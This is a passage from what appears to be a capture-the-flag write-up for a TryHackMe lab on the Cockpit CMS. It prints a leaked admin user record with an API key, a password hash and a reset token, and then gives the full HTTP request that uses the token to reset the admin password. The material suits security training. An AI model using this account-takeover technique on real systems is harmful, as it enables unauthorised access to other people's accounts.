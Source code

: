 ```
this.user  = {"user":"skidy","email":"skidy@tryhackme.fakemail","active":true,"group":"admin","i18n":"en","api_key":"account-21ca3cfc400e3e565cfcb0e3f6b96d","password":"$2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S","name":"Skidy","_modified":1621719311,"_created":1621719311,"_id":"60a9790f393037a2e400006a","_reset_token":"rp-abe0605c21363542ccbe4197025c59776518f33a78149","md5email":"5dfac21f8549f298b8ee60e4b90c0e66"};
```

![Untitled](/assets/CMSPit%20images/Untitled%2010.png)

### Change password

Back to the request that **POST** to the `/auth/resetpassword/` path, modify the data as:

```
{"token":"<TOKEN_STRING>",
"password":"<NEW_PASSWORD>"}
```

```
POST /auth/resetpassword HTTP/1.1
Host: cmspit.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 34
Origin: http://cmspit.thm
Connection: close
Referer: http://cmspit.thm/auth/forgotpassword
Cookie: 8071dec2be26139e39a170762581c00f=pcmp2gb5ickiqe9v57dnh33sts

{"token":"rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23",
"password":"adminpass"}
```
